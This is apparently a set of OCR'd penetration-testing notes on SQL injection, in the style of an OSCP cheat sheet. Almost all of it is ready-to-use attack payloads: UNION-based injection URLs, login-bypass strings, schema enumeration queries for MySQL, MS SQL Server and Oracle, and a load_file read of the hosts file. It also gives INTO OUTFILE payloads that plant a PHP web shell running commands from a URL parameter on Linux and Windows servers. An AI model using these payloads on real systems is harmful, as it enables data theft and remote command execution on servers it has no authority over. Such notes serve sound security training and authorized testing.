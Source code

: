 For a row 

    http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8      
Known Username

    admin’ - -
    admin’) - -
    
Using error-bases DB enumeration

    Add the tick '
    Enumerate columns  
    
Using order by
https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html

Figuring out schema   
MySQL:   
Databases: SELECT schema_name FROM information_schema.schemata   
Tables: SELECT table_name FROM information_schema.tables   
Columns: SELECT column_name FROM information_schema.columns   
#enum info
text UNION SELECT 1,@@version,user(),system_user(),database(),3,4,5,6,8,10,11
user() - username and hostname of account, system_user() - account name used by Windows auth     


MS SQL Server:   
Note: information_schema can be used for MS SQL Server as well, with some slight, but significant, differences. The queries will need to explicitly reference individual databases because information_schema is a view that provides only info on the current database. Databases: SELECT name FROM sys.databases   
Tables: SELECT name FROM sys.tables    
Columns: SELECT name FROM sys.columns    

Oracle:   
Schemas: SELECT owner FROM all_tables   
Tables: SELECT table_name FROM all_tables   
Columns: SELECT column_name FROM all_tab_columns   
	 
 SQL Injection Webshells
 
     #Linux
     ?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
     
     #Windows
     ?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
	
	
Example SQLi on Windows:
#testing

    http://10.10.10.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')

#exploitation

    http://10.10.10.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
